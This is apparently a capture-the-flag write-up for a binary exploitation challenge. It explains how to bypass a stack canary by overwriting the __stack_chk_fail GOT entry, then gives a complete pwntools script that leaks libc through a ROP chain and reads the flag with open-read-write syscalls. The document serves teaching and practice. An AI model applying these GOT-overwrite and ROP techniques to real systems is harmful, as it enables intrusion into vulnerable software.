





[Challenge files](./Inequable_Canary.7z)

A malformed canary challenge.

<!--more-->

## Challenge Analysis

checksec:



Basically only Canary stack protection is enabled.

Sandbox:



The binary is not stripped. The main function reveals that user input can directly overwrite `ret_addr` to modify the function return address:



The function list also contains 2 functions: hint and vuln.

hint is a `jmp rsp`:



vuln:



Using "Tell me the location of the Eye of the Deep Sea", 0x10 bytes can be written to `rbp + 0x40`. Then using "I have magic", `sys_read` writes 8 bytes to the address pointed to by `rbp + 0x38`, effectively achieving an arbitrary 8-byte write.

After "Let's go!", the `read` call reads 0x100 bytes onto the stack, but only 0x20 bytes are pre-allocated — a stack buffer overflow exists. However, since canary protection is enabled, a direct stack overflow would fail the `___stack_chk_fail` check.

## Solution Strategy

The program appears to want us to control main's ret_addr to jump to vuln, then use vuln's stack overflow to construct an RSP ROP chain.

But first we need to bypass canary: use the arbitrary write to modify `got[___stack_chk_fail]` to disable the canary check.

Then construct a normal stack overflow ROP. Two passes are needed: the first to leak the libc base address, the second for ORW (open-read-write) to capture the flag.

## PoC

```python
from pwn import *

context.arch = 'amd64'

elf = ELF("./canary")
# libc = ELF("./libc-2.31.so")
libc = ELF("/root/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc.so.6")

O_RDONLY = p64(0)
pop_rax = libc.search(asm('pop rax\nret'), executable=True).__next__()
pop_rdx_r12 = libc.search(asm('pop rdx\npop r12\nret'),
                          executable=True).__next__()
# pop_rdx_4 = libc.search(asm('pop rdx\nxor eax, eax\npop rbx\npop r12\npop r13\npop rbp\nret'), executable=True).__next__()
syscall_ret = libc.search(asm('syscall\nret'), executable=True).__next__()

print(hex(pop_rax))
print(hex(pop_rdx_r12))

p = process(["/root/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/ld-linux-x86-64.so.2",
             "./canary"], env={"LD_PRELOAD": "/root/glibc-all-in-one/libs/2.31-0ubuntu9_amd64/libc.so.6"})
# p=remote('139.155.126.78',15806)

# gdb.attach(p)

# pause()

vuln_addr = p64(elf.sym['vuln'])
pop_rdi = p64(0x400a63)         # pop rdi; ret
pop_rsi_r15 = p64(0x400a61)     # pop rsi; pop r15; ret
pop_3 = p64(0x400a5e)           # pop three times  <===> add rsp, 0x18; ret
stack_fail_got = p64(elf.got['__stack_chk_fail'])
read_got = p64(elf.got['read'])
write_addr = p64(elf.sym['write'])
bss = p64(elf.bss())

p.sendafter("start the journey\n", vuln_addr)

# Stack overflow to modify __stack_chk_fail GOT, bypassing canary check
p.sendafter("Tell me the location of the Eye of the Deep Sea\n",
            b'a'*8+stack_fail_got)
p.sendafter("I have magic\n", pop_3)

# ROP stack overflow ret -> write, to leak libc base
payload = pop_rdi + p64(1) + pop_rsi_r15 + read_got + \
    p64(0) + write_addr + vuln_addr
p.sendafter("Let's go!\n", payload)
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['read']
print(hex(libc_base))

# Stack overflow to write /flag to bss
p.sendafter("Tell me the location of the Eye of the Deep Sea\n", b'a'*8+bss)
p.sendafter("I have magic\n", b'/flag\0\0\0')

pop_rax = p64(libc_base + pop_rax)
syscall_ret = p64(libc_base + syscall_ret)
# pop_rdx_4 = p64(libc_base + pop_rdx_4)
pop_rdx_r12 = p64(libc_base + pop_rdx_r12)


# pause()

# ROP stack overflow ret -> open -> /flag
payload = pop_rdi + bss + pop_rsi_r15 + O_RDONLY + \
    p64(0) + pop_rax + p64(2) + syscall_ret
# open -> read
# payload += pop_rdi + p64(3) + pop_rsi_r15 + bss + p64(0) + pop_rdx_4 + p64(0x100) * 5 + pop_rax + p64(0) + syscall_ret
payload += pop_rdi + p64(3) + pop_rsi_r15 + bss + p64(0) + \
    pop_rdx_r12 + p64(0x100) * 2 + pop_rax + p64(0) + syscall_ret
# read -> write -> stdout
payload += pop_rdi + p64(1) + pop_rax + p64(1) + syscall_ret

p.sendafter("Let's go!\n", payload)

# gdb.attach(p)

p.interactive()

```
